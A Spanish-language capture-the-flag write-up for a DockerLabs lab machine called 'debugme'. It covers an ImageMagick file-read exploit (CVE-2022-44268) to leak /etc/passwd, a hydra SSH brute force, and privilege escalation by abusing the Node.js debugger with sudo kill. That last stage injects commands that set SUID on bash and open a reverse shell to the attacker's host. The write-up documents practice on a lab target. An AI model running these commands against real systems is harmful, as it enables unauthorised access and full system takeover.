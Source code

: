 nmap:  443, 80, 22

![[dockerlabs/dificil/debugme/nmap.png]]

---
entramos a la pagina principal y nos da esto:
![[pagina principal 1.png]]

hay una subida de imagen o pdf y encontré este exploit que roba metadatos: https://github.com/voidz0r/CVE-2022-44268

seguimos los pasos y subimos la imagen 1200x1200
![[imagen subida.png]]

después guardamos la foto desde la pagina subida y al guardarla nos dará muchos números.
![[primer paso nombre.png]]

lanzamos este comando con el numero dentro de los ""

>python3 -c 'print(bytes.fromhex("con el numero que nos dio"))'

y al final dará:
![[etcpasswd.png]]

y nos dará el listado de "/etc/passwd" con un usuario llamado "lenam"

hacemos fuerza bruta

     - hydra -l lenam -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2

nos da la contraseña: loverboy
![[dockerlabs/dificil/debugme/fuerza bruta.png]]
dentro al hacer sudo -l aparece: "kill"
![[kill.png]]
al hacer un "ps aux" vemos que en el PID 53 se ejecuta un "index.js"
![[codigojs.png]]

buscamos en: https://book.hacktricks.xyz/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse

y vemos que podemos escalar con: kill -s SIGUSR1 nodejs-ps
![[ejecucion 1.png]]

que quedaría:  sudo kill -s SIGUSR1 49 (o según se ejecute en este caso 49)
ahora si ejecutamos: netstat -atunop vemos que se reinicia ya hora esta habitado el puerto 9229
![[nuevopuerto.png]]

nos conectamos por la IP y puerto que da:  node inspect 127.0.0.1:9229

dentro del debug ejecutamos: 

    - exec("process.mainModule.require('child_process').exec('chmod u+s /bin/bash')")

ahora salimos y ejecutamos el bash -p

![[dockerlabs/dificil/debugme/root.png]]

pero no somos root absoluto, modificamos el código para una reverse shell

    - exec("process.mainModule.require('child_process').exec('bash -c \"/bin/bash -i >& /dev/tcp/172.17.0.1/443 0>&1\"')")

![[root absolute.png]]

y somos root!